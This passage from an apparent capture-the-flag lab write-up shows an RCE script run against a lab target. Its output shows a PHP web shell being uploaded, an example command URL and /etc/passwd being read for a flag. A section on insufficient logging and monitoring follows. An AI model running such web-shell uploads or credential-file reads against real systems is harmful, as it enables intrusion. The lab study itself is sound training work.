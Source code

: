 ```bash
root@kali:~! python rce.py [url]  // url means url of your target
```

Finally, I've got the shell. I've used `wc /etc/password` to counts the number of characters, words and lines. The example here is trying to see how many entries in `/etc/passwd`

```bash
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.90.249/bootstrap/img/TVgBS1aAhU.php
> Example command usage: http://10.10.90.249/bootstrap/img/TVgBS1aAhU.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ wc /etc/passwd
  31   40 1611 /etc/passwd
```

Flag: `1611`

## Day 10 - Insufficient Logging and Monitoring

When web applications are set up, every action performed by the user should be logged. Logging is important because in the event of an incident, the attackers actions can be traced. Once their actions are traced, their risk and impact can be determined. Without logging, there would be no way to tell what actions an attacker performed if they gain access to particular web applications. The bigger impacts of these include:

* _**regulatory damage**_: if an attacker has gained access to personally identifiable user information and there is no record of this, not only are users of the application affected, but the application owners may be subject to fines or more severe actions depending on regulations.
* _**risk of further attacks**_: without logging, the presence of an attacker may be undetected. This could allow an attacker to launch further attacks against web application owners by stealing credentials, attacking infrastructure and more.

The information stored in logs should include:

* HTTP status codes
* Time Stamps
* Usernames
* API endpoints/page locations
* IP addresses

These logs do have some sensitive information on them so its important to ensure that logs are stored securely and multiple copies of these logs are stored at different locations.

As you may have noticed, logging is more important after a breach or incident has occurred. The ideal is case is having monitoring in place to detect any suspicious activity. The aim of detecting this suspicious activity is to either stop the attacker completely or reduce the impact they've made if their presence has been detected much later than anticipated. Common examples of suspicious activity includes:

* multiple unauthorised attempts for a particular action \(usually authentication attempts or access to unauthorised resources e.g. admin pages\)
* requests from anomalous IP addresses or locations: while this can indicate that someone else is trying to access a particular user's account, it can also have a false positive rate.
* use of automated tools: particular automated tooling can be easily identifiable e.g. using the value of User-Agent headers or the speed of requests. This can indicate an attacker is using automated tooling.
* common payloads: in web applications, it's common for attackers to use Cross Site Scripting \(XSS\) payloads. Detecting the use of these payloads can indicate the presence of someone conducting unauthorised/malicious testing on applications.
